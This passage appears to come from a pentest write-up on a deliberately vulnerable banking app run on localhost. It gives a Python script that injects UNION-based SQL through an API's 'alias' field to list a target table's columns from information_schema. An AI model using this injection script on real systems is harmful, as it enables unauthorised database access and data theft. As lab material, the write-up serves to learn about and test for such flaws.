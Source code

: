 ![](/Screenshots/unsafebank//pent/tables_sqli.png)

And this code should mimic a SELECT * FROM a target table:

```python
import requests
import json

# === Input ===
target_table = input("Enter target table name: ").strip()
output_file = f"{target_table}_rows.txt"

# === Constants ===
url = "http://localhost/api/beneficiary/fetch"

headers = {
    "Authorization": [JWT TOKEN HERE]
}

# === Step 1: Fetch column names ===
print(f"\n[*] Fetching columns for table '{target_table}'")
columns = []
offset = 0

while True:
    injected_alias = f"' UNION (SELECT column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name = '{target_table}' LIMIT 1 OFFSET {offset}) UNION  SELECT NULL, NULL, NULL, NULL FROM beneficiary_details WHERE '1'='"

    payload = {
        "requestBody": {
            "timestamp": "325553",
            "device": {
                "deviceid": "UHDGGF735SVHFVSX",
                "os": "ios",
                "host": "lucideustech.com"
            },
            "data": {
                "alias": injected_alias
            }
        }
    }

    res = requests.post(url, headers=headers, json=payload)

    try:
        result = res.json()
    except:
        print("[!] Column fetch failed.")
        break

    if result.get("status") == "Failed":
        break

    col = result.get("data", {}).get("alias")
    if col:
        print(f"[+] Found column: {col}")
        columns.append(col)
        offset += 1
    else:
        break

if not columns:
    print("[-] No columns found.")
```